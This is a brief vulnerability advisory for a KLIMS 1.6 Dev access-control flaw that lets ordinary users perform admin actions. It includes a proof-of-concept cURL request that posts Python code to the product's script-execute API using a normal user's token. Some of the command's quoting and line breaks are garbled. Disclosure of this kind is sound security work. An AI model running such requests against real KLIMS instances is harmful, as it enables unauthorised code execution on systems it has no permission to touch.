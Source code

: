 # CVE-2025-43947
Codemers GmbH KLIMS 1.6.DEV was found to have no proper access control mechanism allowing a normal KLIMS user to perform all the actions that an admin can perform, such as modifying configuration, creating user, uploading files, etc.

# Affected Product & Version
Codemers GmbH KLIMS <= 1.6 Dev

# PoC
Login as a normal user and run the cURL command with your session token.

cURL command:

````
curl --path-as-is -i -s -k -X $'POST' \

-H $'Host: YOUR-INSTANCE-URL -H $'Content-Length: 79' -H $'Authorization: TOKEN' -H
$'Accept-Language: en-US,en;q=0.9' -H $'Accept: application/json' -H $'Content-Type: application/
json' -H $'Client-Session: TOKEN' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/
537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36' -H $'Origin: http:// YOUR-INSTANCEURL
‘ -H $'Referer: http:// YOUR-INSTANCE-URL/ui/' -H $'Accept-Encoding: gzip, deflate, br' -H
$'Connection: keep-alive' \

--data-binary $'{\"snippet\":\"import time\\ntime.sleep(30)\",\"entityReference\":null,
\"context\":null}' \

$'http://YOUR-INSTANCE-URL/klims/rest/api/script/execute'
````

# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security Team.
